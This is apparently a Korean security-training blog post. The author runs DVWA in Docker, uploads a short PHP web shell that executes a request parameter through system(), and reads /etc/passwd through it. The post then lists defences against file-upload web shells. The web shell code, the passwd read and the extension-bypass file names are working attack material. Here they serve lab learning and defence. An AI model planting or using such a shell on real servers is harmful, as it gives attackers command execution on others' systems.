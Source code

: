 ```yaml
---
title: "[WHS]Webshell막기"
categories: [WhiteHatSchool, task]
mermaid: true
tag:
- whitehatschool
- 화이트햇스쿨
- preBoB
- webshell
- php
- 웹쉘
---
```


# 개요
서버를 직접 구축해보고 웹쉘을 업로드후 사용해본뒤, 웹쉘을 막기위한 방법에 대한 글을 작성했습니다.

### 웹쉘실습
#### 서버구축
서버구축으로는 처음 WSL환경에서 가장 유명한 조합인 APM으로 Apache, php, Mysql을 설치하고 파일업로드할 수 있는 코드를 작성한뒤 웹쉘을 업로드하려했지만 이상한 오류로 인해 실패를 해서 Docker를 이용해 구축을 했다.

Docker 에서 받은 image는 `sagikazarmark/dvwa` 이것을 사용했다. 

구축방법은 다음과같다.

```bash
$ docker pull sagikazarmark/dvwa
$ docker run --rm -it -p 8080:80 sagikazarmark/dvwa
```
위 명령어를 입력한뒤 브라우저를 통해 `http://loaclhost:8080` or `http://127.0.0.1:8080`으로 접속한다.

![image](https://jimin0605.github.io/assets/img/WHS/webshell/1.png)

접속하면 해당 로그인 화면이 나오는데 아직 로그인은 할 수 없고 `/setup.php`로 이동해 database를 초기화 해줘야한다.

![image](https://jimin0605.github.io/assets/img/WHS/webshell/2.png)

초기화 한뒤 `admin/password`로 로그인해 접속해준다.

<br>

#### 웹쉘업로드
웹쉘을 업로드하기 전에 웹쉘에 대해 설명해보자면. 서버에서 사용하는 언어에 대한 파일을 업로드가 가능하다면, 시스템 명령어를 사용할 수 있는 코드를 넣어 웹상에서도 시스템 명령어를 사용해 여러 공격이 가능하게 하는 것을 말한다.

우선 이 DVWA에서 사용하는 서버는 apache고 언어는 php이므로 php파일을 업로드 할 수 있다면 웹쉘공격을 할 수 있는 가능성이 생긴다.

php웹쉘파일로 해당 코드를 작성해 사용했다.
```php
<?php
echo 'Enter a Command:<br>';
echo '<form action="">';
echo '<input type=text name="cmd">';
echo '<input type="submit">';
echo '</form>';

if(isset($_GET['cmd'])) {
	system($_GET['cmd']);
}
?>
```
코드에 대해 간단하게 설명하자면 html 코드를 echo로 출력해줘 명령어를 입력하는 부분과 제출하는 부분을 만들었고, 만약 submit을 눌렀을 때 명령어가 존재한다면 해당 명령어를 system()함수로 시스템 명령을 실행한다. 

DVWA fileupload low level에서는 아무런 시큐어코딩이 되어있지 않기에 바로 php파일을 업로드 하면 된다.

![image](https://jimin0605.github.io/assets/img/WHS/webshell/3.png)

<br>

업로드한 결과 밑에 빨간색으로 어떠한 위치에 어떠한 이름으로 업로드가 되었는지 친절하게 나타나있다. 이 위치로 이동해보자.

<br>

![image](https://jimin0605.github.io/assets/img/WHS/webshell/4.png)
해당 위치로 이동하고 `cat /etc/passwd`파일을 출력해본결과 잘 출력이 되는 것을 확인할 수 있다.

<br>

#### FileUpload취약점 공격을 위한 조건
1. 파일을 업로드 할 수 있는 기능이 제공되어야 함
2. 업로드된 파일이 저장되는 웹서버의 경로에 실행권한이 부여되어야 함
3. 해당 웹서버의 경로에 웹브라우져를 통해 접근이 가능하여야 함

<br>

### 웹쉘 실행을 막는 방법
웹쉘을 실행하려면 우선 파일을 업로드 해야할 것이다. 따라서 웹쉘파일 업로드를 막는 방법부터 알아보겠다.

파일을 업로드할 떄 확장자를 검사할때 오른쪽부터 검사하거나 왼쪽부터 검사를 할 시 만약 파일 이름을 `webshell.php.png`, `webshell.png.php` 이렇게 변경해 우회를해 업로드를 할것이다. 따라서 확장자검사는 왼쪽과 오른쪽 둘다 잘 해줘야하고, 어떤 확장자들만 업로드 시킬것인지는 2가지의 방식이있다. Whitelist or Blacklist방식이 있다. Whitelist방식은 모든 확장자를 막아둔 뒤 안전하다고 판단되는 확장자들만 허용시키는것이고, Blacklist방식은 모든 확장자를 허용시킨 뒤 php, php5, jsp 등의 위험하다고 판단되는 확장자들을 일일이 비활성화를 하는것이다. 가용성 측면에서는 블랙리스트가 좋지만 모든 확장자를 허용시킨다는것으로 인해 개발자가 미쳐 생각치도 못한 변수가 생길 시 웹쉘업로드 취약점이 발생할 수 있기때문에 보안을 위해서 최대한 whitelist를 사용하는것이 바람직하다. 그리고 파일을 업로드할 때 파일크기에 대한 제한과 업로드를 하기전 확장자말고도 파일의 시그니쳐 확인을 통해 웹쉘 업로드를 막을 수 있다.

마지막으로 파일이 업로드가 됐을시에 그 파일의 이름을 예측하지 못하게 무작위 난수로 변경을 시킨뒤 저장을 한다면 아무리 업로드를 성공해도 해당 파일을 찾지 못해 실행하지 못할것이다 또 업로드한 파일에 대한 실행권한을 없애면 애초에 실행을 할 수 없을것이다.

### 요약
- 확장자검사를 왼쪽과 오른쪽 둘 다 하기
- 최대한 whitelist으로 확장자를 검사해 예상치 못한 변수를 막는다.
- 확장자 이외에 파일 시그니쳐또한 확인을 해 업로드를 막는다. (시그니쳐 뿐만 아닌 않에 php라는 문자열이나 위험한 문자가 있을 경우도 차단해야한다.)
- 파일업로드할 때 파일의 이름을 예측못할 난수로 변경
- 실행권한을 없애기


